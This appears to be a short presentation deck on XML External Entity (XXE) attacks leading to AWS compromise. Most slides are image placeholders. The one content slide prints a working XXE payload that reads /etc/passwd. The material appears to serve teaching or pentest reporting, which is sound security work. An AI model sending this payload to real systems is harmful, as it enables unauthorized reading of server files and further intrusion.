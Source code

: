 # XXE and AWS Compromise

---

## @fa[book] Background
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code] XML Entities
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

---

## @fa[bug] Pentest Report
![diagram](xxe-aws-compromise/assets/vuln1.png)
